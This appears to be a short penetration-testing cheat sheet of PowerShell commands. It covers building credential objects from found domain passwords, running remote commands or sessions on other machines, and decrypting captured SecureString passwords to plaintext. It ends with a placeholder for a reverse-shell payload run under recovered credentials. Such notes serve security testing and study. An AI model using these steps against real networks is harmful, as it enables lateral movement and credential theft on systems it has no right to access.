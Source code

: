 # Powershell Credentials Object Creation

### Commands:

#### 1) 

    $SecPassword = ConvertTo-SecureString 'PASSWORD' -AsPlainText -Force

#### 2) 

    $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\USERNAME', $SecPassword)

#### 3) 

    Invoke-Command -Computer COMPUTER_NAME -Credential $Cred -ScriptBlock { COMMAND_TO_EXECUTE } 

### Use case:

### When we have valid credentials on a domain joined user, but he has no access to RDP or/and WinRM (Remote Desktop Users and Remote Management Users)

### Alternatively, we can authenticate with a PSSession

#### 4) CREDSSP for example

    $session = New-PSSession -CompuerName COMPUTER_NAME -Credential $Cred -Authentication AUTHENTICATION_METHOD 

#### 5) 

    Enter-PSSession $session

## Alternate use case: The credentials found are encrypted in some way. To recover the credentials, we do the following commands:

    echo > pass.txt (Pass the encrypted password to a .txt file)

    $EncryptedString = Get-Content .\pass.txt (Set a variable that opens the content of the .txt file we created earlier)

    $SecureString = ConvertTo-SecureString $EncryptedString 

    $Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString

    echo $Credential.GetNetworkCredential().password (Print the decrypted password of the user)

    $username = 'USER'

    $password = 'RECOVERED_PASS'

    $securePassword = ConvertTo-SecureString $password -AsPlainText -Force

    $credential = New-Object Automation.PSCredential($username, $securePassword)

    Invoke-Command -ComputerName localHost -Credential $credential -ScriptBlock{YourNewRevShellPayloadHere} 



